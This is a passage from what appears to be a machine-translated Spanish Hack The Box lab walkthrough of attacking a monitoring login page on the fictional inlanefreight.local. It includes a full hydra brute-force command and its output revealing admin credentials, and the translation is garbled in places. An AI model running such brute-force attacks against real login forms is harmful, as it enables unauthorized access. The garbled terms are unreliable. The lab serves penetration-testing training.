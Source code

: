 ![text](https://academy.hackthebox.com/storage/modules/163/xxe_passwd.png)

Analicemos otro hallazgo de alto riesgo,`XML External Entity (XXE) Injection`(¡Tenemos bastante la lista hasta ahora!), Y pasamos al último Vhost/subdominio.

---

## monitoreo.inlaneFreight.local

Descubrimos el`monitoring`Vhost antes, por lo que no repetiremos el proceso. Utilizamos FFUF, pero esta enumeración también se puede realizar con otras herramientas. Prueba con`GoBuster`para sentirse cómodo con más herramientas. Navegar por`http://monitoring.inlanefreight.local`resulta en una redirección a`/login.php`. Podemos probar algunas cargas útiles de derivación de autenticación y pares de credenciales débiles comunes, pero no llegar a ninguna parte, solo recibiendo el`Invalid Credentials!`Error cada vez. Dado que este es un formulario de inicio de sesión, vale la pena explorar más para que podamos confundirlo un poco con el intruso de eructos para ver si podemos provocar un mensaje de error indicativo de una vulnerabilidad de inyección SQL, pero no tenemos éxito.

Un análisis de la solicitud y la respuesta en la suite BURP no produce nada interesante. En este punto, hemos agotado casi todos los ataques web posibles y hemos vuelto al contenido del módulo, recordando el[Iniciar forcedura de bruto](https://academy.hackthebox.com/module/57/section/503)módulo que se centra en la herramienta`hydra`. Esta herramienta se puede usar para los formularios de inicio de sesión HTTP de fuerza bruta, así que vamos a intentarlo. Usaremos lo mismo[lista de palabras](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt)desde`SecLists`Repo de Github como antes.

Configuraremos`hydra`para realizar el ataque con forcedura bruta, especificando el`Invalid Credentials!`Mensaje de error para filtrar intentos de inicio de sesión no válidos. Recibimos un éxito para el par de credenciales`admin:12qwaszx`, una contraseña común de "caminata de teclado" que es fácil de recordar pero que puede ser muy fácilmente forzada/agrietada.

  Enumeración y explotación web

```shell-session
xnoxos@htb[/htb]$ hydra -l admin -P ./passwords.txt monitoring.inlanefreight.local http-post-form "/login.php:username=admin&password=^PASS^:Invalid Credentials!"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-21 11:32:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 99 login tries (l:1/p:99), ~7 tries per task
[DATA] attacking http-post-form://monitoring.inlanefreight.local:80/login.php:username=admin&password=^PASS^:Invalid Credentials!
[80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-21 11:32:22
```

Una vez iniciado sesión, se nos presenta algún tipo de consola de monitoreo. Si escribimos`help`, se nos presenta una lista de comandos. Esto parece un entorno de shell restringido para realizar tareas limitadas y algo muy peligroso que no debe expuestos externamente. La última clase de vulnerabilidades enseñadas en el`Penetration Tester Job Role Path`que aún no hemos cubierto es[Inyecciones de comando](https://academy.hackthebox.com/module/details/109).

